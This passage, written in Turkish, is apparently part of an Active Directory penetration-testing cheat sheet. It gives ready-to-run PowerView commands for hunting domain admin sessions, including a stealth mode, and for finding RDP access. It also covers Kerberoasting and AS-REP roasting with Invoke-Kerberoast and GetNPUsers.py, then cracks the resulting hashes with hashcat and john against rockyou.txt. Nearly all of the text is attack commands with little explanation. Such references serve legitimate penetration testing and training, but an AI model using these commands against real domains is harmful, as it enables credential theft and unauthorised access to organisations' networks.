 "Domain Admins" grubunun oturum açtığı tüm bilgisayarları bulmak:

```powershell
Invoke-UserHunter -Verbose
```

Belirli bir grubun oturum açtığı tüm bilgisayarları bulmak:

```powershell
Invoke-UserHunter -GroupName "RDPUsers"
```

Yüksek önemli hedeflerdeki "domain admin" oturumlarını bulmak:

```powershell
Invoke-UserHunter -Stealth -ShowAll
```

Kullanıcının yerel RDP erişim hakkı olduğu bilgisayarları bulmak:

```powershell
Find-GPOLocation -UserName kullanici_adi -LocalGroup RDP
```

### Kerberoasting

Kerberos ile SPN ayarlı kullanıcıları bulmak:

```powershell
Get-NetUser -SPN
```

TGS bileti almak ve hash'i çıkarmak:

```powershell
Invoke-Kerberoast -OutputFormat Hashcat
```

Bu hash'i "rockyou.txt" gibi bir sözcük listesi ile kırmak:

```bash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force
```

### AS-REP Roasting

PreAuth gereksinimi olmayan kullanıcıları bulmak:

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

AS-REP hash'ini almak ve kırmak:

```bash
GetNPUsers.py domain/username -dc-ip 10.10.10.10
john hash --wordlist=rockyou.txt
```

## Kullanıcı/Grup Kimliklerini Yerel Yönetici Yetkisiyle Listeleme

